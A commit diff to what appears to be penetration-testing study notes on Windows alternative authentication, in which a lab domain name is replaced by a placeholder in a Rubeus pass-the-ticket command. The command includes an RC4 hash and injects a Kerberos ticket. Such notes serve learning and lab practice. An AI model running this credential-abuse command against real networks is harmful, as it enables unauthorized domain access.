

Before and after one commit to HackingNaTuga/Zero2PwnTest, a Markdown page: Passwords/6_windows_alternative_auth.md, the part around the change. GitHub-like rendering.

`````diff
--- a/Passwords/6_windows_alternative_auth.md
+++ b/Passwords/6_windows_alternative_auth.md
@@ -90,7 +90,7 @@ The tickets that end with $ correspond to the computer account, which needs a ti
 
 **Rubeus - Pass the Ticket**
 ````
-> Rubeus.exe asktgt /domain:inlanefreight.htb /user:plaintext /rc4:3f74aa8f08f712f09cd5177b5c1ce50f /ptt
+> Rubeus.exe asktgt /domain:<domain> /user:plaintext /rc4:3f74aa8f08f712f09cd5177b5c1ce50f /ptt
 Note that now it displays Ticket successfully imported!.
 ````
 ````
`````
